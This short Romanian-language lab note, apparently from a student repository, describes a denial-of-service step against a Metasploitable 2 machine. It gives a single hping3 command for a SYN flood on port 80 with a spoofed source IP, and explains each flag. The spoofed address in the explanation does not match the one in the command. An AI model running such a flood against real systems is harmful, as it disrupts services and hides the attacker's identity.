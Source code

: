 ### Atac DoS:
  
  - Pasii atacului: 
    
        hping3 -S 192.168.56.102 -a 192.168.56.105 -p 80 --flood
        
       -S <-> fixeaza flag-ul de SYN  
       192.168.56.102 <-> adresa IP a tintei Metasploitable 2  
       -a 192.168.56.101 <-> IP spoofing (modifica adresa IP in cea data ca parametru)  
       -p 80 <-> portul destinatie este 80  
       --flood <-> trimite pachetele cat se poate de repede fara a astepta un reply  
